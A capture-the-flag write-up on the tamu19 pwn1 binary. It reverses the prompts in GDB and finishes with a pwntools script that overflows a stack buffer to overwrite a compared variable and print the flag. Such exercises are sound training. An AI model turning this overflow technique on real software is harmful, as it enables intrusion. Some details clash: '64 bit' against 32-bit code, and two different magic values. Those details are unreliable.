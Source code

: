 ```yaml
---
title: Nightmare Series - Stack Smashing (Part 2)
categories:
  - Blog
tags:
  - Reversing
  - Exploits
published: true
---
```


## **File** 04-bof_variable/tmau19_pwn1

## **File Analysis**
File details confirm it is an 64 bit ELF file and symbols are available.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/file_details.png)

Running the file presents us a basic prompt for input. Feeding with test data displays an error message and exits out. This gives us a clue that the binary expects a certain input answer.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/basic_run.png)

## **Basic Reverse Engineering**
Using GDB we can see the following high level main function flow:
 - Basic function prologue
 - 2x function calls to 'puts' for initial prompts
 - Several resulting combinations of 'fgets' and 'puts' function calls for user input and further prompts
 - Several conditional jumps after each input is compared to saved value using 'strncmp' function
 - Final comparison to hardcoded value before calling 'print_flag' function
 - Epilogue and exit

From looking at the overall logic, we can see that several inputs are required to make it through various layers or answers before we can reach the 'call print_flag' instruction.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt1.png)

## First Answer
Checking out the first chain of function calls, we see an 'fgets' followed by 'strncmp'. The value read in by 'fgets' is in this case stored in the location EBP-0x3b as is shown in the ```LEA EAX, [EBP-0x3b]; PUSH EAX;``` set of instructions (based on CDECL calling conventions) being the second parameter to the 'fgets' function call.

The following block of instructions sets up the variables for the function 'strncmp' which is comparing a saved string value to that which was passed in via the user. The value here is located at offset EBX-0x159f. We can place a quick breakpoint on the previous instruction and  when reached, print the string value contained at the offset giving us our first answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/first_answer.png)

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt2.png)

## Second Answer
We're then greeted with a another prompt for an answer which we can see from the corresponding instruction blocks contains subsequent calls to 'fgets' again followed by 'strncmp', this time with a saved value at offset EBX-0x154d. Following the same routine as above we can print this value using GDB by placing a break point on the instruction just before and view the saved string value the binary expects. We now have our second answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/second_answer.png)

At this point we have made it to the third question and this time the input is being compared directly with a hardcoded value of '0xdae110c8' thus controlling the conditional CMP/JNE instruction combination which allows us to reach the 'print_flag' function call or not.

The value is being compared directly with the offset EBP-0x10 on the stack. This is interesting since if we look back, our previous input answer to this question is loaded (as all others were) at offset EBP-0x3b on the stack. This gives us a nice opportunity to again overflow the stack variable on our final answer, overwrite the location to ensure it contains the expected value and get our flag!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/stack_diagram.png)

## **Exploit**

In this example, for the exploit to succeed we have to send all of the correct answers we have obtained in the appropriate order including the final exploit answer. The amount of padding data (0x3b-0x10 = 0x2b(43)bytes) required for our last answer followed by our overwrite payload value of '0xdae110c8' will be written to the stack. This should ensure the binary passes the conditional comparison and reaches the 'print_flag' function call instruction. We can receive the output, which contains our flag.

```
from pwn import *

pty = process.PTY
target = process('./pwn1',stdin=pty, stdout=pty)

#Setup responses
string1='Sir Lancelot of Camelot'
string2='To seek the Holy Grail.'
#Final exploit response to overwrite stack location with our controlled value
string3=b'A'*43+p32(0xdea110c8)

# Start the target process
#target = process('./pwn1')

#Recieve first output lines
print(target.recvline(timeout=5))
print(target.recvline(timeout=5))
#Send first answer
target.sendline(string1)

#Second output
print(target.recvline(timeout=5))
#Second answer
target.sendline(string2)

#Third output
print(target.recvline(timeout=5))
#Send third answer including exploit payload
target.sendline(string3)
print(target.recvall())
```

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/exploit_run.png)
